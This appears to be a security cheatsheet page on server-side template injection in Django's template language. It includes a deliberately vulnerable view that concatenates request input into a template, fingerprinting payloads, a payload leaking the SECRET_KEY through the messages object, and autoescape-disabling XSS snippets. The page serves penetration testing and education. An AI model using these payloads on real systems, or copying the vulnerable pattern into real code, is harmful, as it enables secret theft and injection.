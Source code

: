 ```yaml
---
title: "Django Template"
description: "Cheatsheet on Django Template Engine"
lead: "Cheatsheet on Django Template Engine"
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "ssti"
weight: 620
toc: true
---
```


## Django Template Engine (DTL)

Django ships built-in backends for its own template system, creatively called the [Django template language (DTL)](https://docs.djangoproject.com/en/5.0/topics/templates/), and for the popular alternative `Jinja2`.

## Usage

Basic example of DTL:

```jinja
My first name is {{ first_name }}. My last name is {{ last_name }}.
{{ my_dict.key }}
{{ my_object.attribute }}
{{ my_list.0 }}
```

Usage of DTL in a Django application:

```python
from django.template import engines

django_engine = engines["django"]
template = django_engine.from_string("Hello {{ name }}!")
```

Example of vulnerable code:

```python
from django.http import HttpResponse
from django.template import engines

def index(request):
  message = request.GET.get("message")

  engine = engines["django"]
  template = engine.from_string("<html><body>" + message + "</body></html>")
  return HttpResponse(template.render({}, request))
```

## Detection

DTL vs Jinja2:

| Payload            | Jinja2       | Django Templates         |
| ------------------ | ------------ | ------------------------ |
| `{% csrf_token %}` | Causes error | Anti-CSRF token HTML tag |
| `{{ 7*7 }}`        | 49           | Causes error             |

## Built-in

- List of all tags and filters: [Django - Built-in template tags and filters](https://docs.djangoproject.com/en/5.0/ref/templates/builtins/)

### Debug

```jinja
{% debug %}
```

### CSRF

```jinja
{% csrf_token %}
```

### Secret Key Leak

When `messages` is present in the template context and `CookieStorage` is being used we can walk through attributes of `messages` to access app's `SECRET_KEY`:

```jinja
{{ messages.storages.0.signer.key }}
```

### Include Template

You can include other templates in your page:

```jinja
{% include 'admin/base.html' %}
```

### XSS

- `safe`: Marks a string as not requiring further HTML escaping prior to output. When autoescaping is off, this filter has no effect.
- `escape`: Escapes a string's HTML (HTML entity).
- `force_escape`: Applies HTML escaping to a string.

```jinja
{% autoescape off %}
    {{ message }}
{% endautoescape %}

{{ message|safe }}

{{ some_list|safeseq|join:", " }}
```

## References

- [Django template language (DTL)](https://docs.djangoproject.com/en/5.0/topics/templates/)
- [[PDF] Django templates - Server-Side Template Injection](https://www.lifars.com/wp-content/uploads/2021/06/Django-Templates-Server-Side-Template-Injection-v1.0.pdf)
